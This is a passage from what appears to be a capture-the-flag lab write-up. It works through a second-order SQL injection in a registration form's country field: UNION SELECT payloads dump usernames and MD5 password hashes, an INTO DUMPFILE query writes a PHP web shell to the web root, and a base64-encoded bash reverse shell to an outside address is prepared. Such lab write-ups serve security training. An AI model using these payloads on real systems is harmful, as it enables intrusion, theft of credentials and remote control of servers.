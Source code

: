 Listing the columns in the registration table:
```
username=admin&country=' UNION SELECT column_name from INFORMATION_SCHEMA.COLUMNS where table_name = 'registration' -- -
```

```
username
userhash
country
regtime
```

And finally, listing the rows in the registration table
```
username=admin&country=' UNION SELECT CONCAT(username, ' - ', userhash, ' - ', country, ' - ', regtime) From registration -- -
```

```
test - 098f6bcd4621d373cade4e832627b4f6 - Canada - 1653862730
admin - 21232f297a57a5a743894a0e4a801fc3 - ' UNION SELECT CONCAT(username, ' - ', userhash, ' - ', country, ' - ', regtime) From registration -- - - 1653863324
brazil - 6e5fa4d9c48ca921c0a2ce1e64c9ae6f - Brazil - 1653863445
albania - 3303daf806aebcd0cfd114f7d267f109 - Albania - 1653863456
```

I had the information from the database. But nothing really helpful to move further. 

I decided to check for [Remote Code Execution (RCE)](https://www.geeksforgeeks.org/what-is-remote-code-execution-rce/). But first I needed to know which database was used.


```
username=admin&country=' UNION SELECT version() -- -

10.5.11-MariaDB-1
```
With some research, I found that I could use `into DUMPFILE` to write a file to the server. 

I sent this query: 

```
username=admin&country=' UNION SELECT '<?php echo `id`;?>' into DUMPFILE '/var/www/html/backdoor.php' -- -
```

Then reloaded the account page to get the query executed. And finally navigated to `backdoor.php`.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

I knew that I could run code on the server. The next step was getting a reverse shell. 

I created the code for the reverse shell.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.122/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIyLzQ0NDQgMD4mMSAK
```
